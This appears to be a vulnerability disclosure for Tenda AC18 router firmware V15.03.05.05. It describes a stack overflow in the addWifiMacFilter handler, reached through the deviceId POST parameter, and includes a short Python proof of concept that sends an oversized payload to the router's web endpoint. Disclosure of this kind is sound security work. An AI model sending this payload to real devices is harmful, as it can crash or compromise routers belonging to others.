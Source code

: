 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v9` variable receives the `deviceId` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v9` can trigger this security vulnerability.

![image-20240306161153603](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161153603.png)

![image-20240306161203436](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161203436.png)

![image-20240306161213302](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161213302.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": 1, "deviceId":payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306161225747](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306161225747.png)